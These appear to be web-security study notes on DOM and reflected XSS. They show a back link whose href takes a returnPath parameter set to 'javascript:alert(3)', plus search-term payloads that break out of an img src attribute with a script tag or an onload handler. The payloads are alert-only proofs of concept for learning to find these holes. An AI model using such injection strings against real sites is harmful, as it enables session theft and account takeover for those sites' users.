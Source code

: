 # Section 10: DOM XSS Vulnerabilities

## Discovering a Reflected DOM XSS in a Link

Example: The return path on a back link is populated from a query parameter in the Link

```
<a id="backLink" href="zaidzaid">Back</a>
```

Can run JavaScript within href:

`feeback?returnPath=javascript:alert(3)`

```
<a id="backLink" href="javascript:alert(3)">Back</a>
```

---

## Discoverting a Reflected XSS in an Image Tag

Example: Typing in a search box, the content is being displayed in `img` `src`, as part of the image path

Type a single quote to close `src="` quote:

Search Term:
```
"><script>alert(1)</script>//
```

or with less tags:

```
" onload=alert(3)
```

---
